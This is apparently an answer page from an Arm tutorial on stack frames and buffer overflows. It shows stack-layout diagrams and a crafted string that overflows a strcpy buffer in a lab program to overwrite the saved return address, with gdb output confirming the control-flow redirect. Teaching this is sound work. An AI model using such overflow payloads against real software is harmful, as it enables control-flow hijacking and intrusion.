 ```yaml
---
title: Answers to exercises
weight: 7

### FIXED, DO NOT MODIFY
layout: learningpathall
---
```



### Answer to exercise 1

```text
\ 
     +---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
     | x | x |  <-      buffer2     ->   | <- buffer1 -> | x | x | x | <- frame of the main function ->  |
     +---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 sp+:  0   1   2   3   4   5   6   7   8   9   10  11  12  13  14  15  16  17  18  19  20  21  22  23 ....
       ^
       |
       sp

```

### Answer to exercise 2

```text
\ 
     +---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
     | x29 = fp of previous function | x30 = return address to prev f| <- frame of function that called main->   |
     +---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 sp+:  0   1   2   3   4   5   6   7   8   9   10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  ...
       ^
       |
       sp = x29

```

### Answer to exercise 3

```text
\
     +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
     |       unused          |  buffer               | x29 of previous function | return address x30 |
     +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
 sp+:  0  1  2  3  4  5  6  7  8  9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31
       ^                                               ^
       |                                               |
       sp                                             x29

```

### Answer to exercise 4

One string that could be a solution to exercise 3 at the end of the previous
section is:

```
$'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
```

We created this string by:

1. First filling the string with arbitrary characters for bytes 0 till 15.

2. Starting at byte 16, we fill in the address we want the return address to
   take. One special consideration to take is that we are working on a
   little-endian target. Therefore, we have to reverse the order of the bytes
   of the address in the string.

Let's see if it works:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
0123456789012345
```

Success! The program no longer prints the string
`"The string on the command line was: "`!

Time for a little celebration: 🎉

Now let's check in detail by stepping through the program that this is working
as we expect:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
gdb -q --args ./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
Reading symbols from ./redirect1...
```

```text { output_lines = "2-30" }
(gdb) break f
Breakpoint 1 at 0x7e4: file redirect1.c, line 8.
```

```text { output_lines = "2-30" }
(gdb) run
Starting program: /armlearningpaths/redirect1 0123456789012345\
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/aarch64-linux-gnu/libthread_db.so.1".

Breakpoint 1, f (src=src@entry=0xfffffffff927 "0123456789012345 \b\252\252\252\252") at redirect1.c:8
8           strcpy(buffer, src);
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
=> 0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x0000000000000002
0xfffffffff580: 0x0000fffffffff590      0x0000aaaaaaaa0814
```

We see that before the buffer overflow in `strcpy` is executed, the stored value
of `x30` on the stack is as it should be: `0xaaaaaaaa0814`.

```text { output_lines = "2-30" }
(gdb) nexti 2
9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
=> 0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x3736353433323130
0xfffffffff580: 0x3534333231303938      0x0000aaaaaaaa0820
```

After the buffer overflow has happened in `strcpy`, the stored value of `x30` on
the stack has changed indeed to the value `oxaaaaaaaa0820`.

```text { output_lines = "2-30" }
(gdb) nexti 3
0x0000aaaaaaaa07f8      9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
=> 0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) stepi
main (argc=<optimized out>, argv=<optimized out>) at redirect1.c:16
16          puts(chars);
```

```text { output_lines = "2-30" }
(gdb) disass
Dump of assembler code for function main:
   0x0000aaaaaaaa07fc <+0>:     stp     x29, x30, [sp, #-32]!
   0x0000aaaaaaaa0800 <+4>:     str     x19, [sp, #16]
   0x0000aaaaaaaa0804 <+8>:     mov     x29, sp
   0x0000aaaaaaaa0808 <+12>:    ldr     x19, [x1, #8]
   0x0000aaaaaaaa080c <+16>:    mov     x0, x19
   0x0000aaaaaaaa0810 <+20>:    bl      0xaaaaaaaa07d4 <f>
   0x0000aaaaaaaa0814 <+24>:    adrp    x0, 0xaaaaaaaa0000
   0x0000aaaaaaaa0818 <+28>:    add     x0, x0, #0x850
   0x0000aaaaaaaa081c <+32>:    bl      0xaaaaaaaa0670 <puts@plt>
=> 0x0000aaaaaaaa0820 <+36>:    mov     x0, x19
   0x0000aaaaaaaa0824 <+40>:    bl      0xaaaaaaaa0670 <puts@plt>
   0x0000aaaaaaaa0828 <+44>:    ldr     x19, [sp, #16]
   0x0000aaaaaaaa082c <+48>:    mov     w0, wzr
   0x0000aaaaaaaa0830 <+52>:    ldp     x29, x30, [sp], #32
   0x0000aaaaaaaa0834 <+56>:    ret
End of assembler dump.
(gdb)
```

And indeed, rather than returning to `0xaaaaaaaa0814`, the instruction after the call to function `f` has returned to
`0xaaaaaaaa0820`, skipping the first call to `puts`.
